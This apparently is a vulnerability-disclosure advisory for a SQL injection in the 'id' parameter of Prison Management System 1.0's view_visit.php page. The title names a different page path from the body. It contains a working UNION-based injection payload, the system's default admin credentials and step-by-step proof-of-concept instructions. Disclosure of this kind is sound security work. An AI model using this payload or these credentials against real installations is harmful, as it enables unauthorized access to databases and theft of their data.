 # Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Prison Management System  - /admin/visits/view_visit.php 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Prison Management System does not filter the content correctly at the `/admin/visits/view_visit.php` "id" parameter, resulting in the generation of SQL injection.

#### Payload used:
/pms/admin/visits/view_visit.php?id=2%27and%201=2%20union%20select%201,2,3,4,5,6,7,user(),database()--+

#### Proof of Concept

1. Login the CMS. 
     Admin Default Access:
       username:admin
       Password: admin123

2. Open Page http://localhost/pms/admin/?page=visits click View button

   ![image-20220606165326315](Prison Management System(SQLI)2.assets/image-20220606165326315.png)

   ![image-20220606165410485](Prison Management System(SQLI)2.assets/image-20220606165410485.png)

   

3. Put SQL payload   in the browser;

     ![image-20220606165443092](Prison Management System(SQLI)2.assets/image-20220606165443092.png)


4. Viewing the dbuser and database name in page;

   

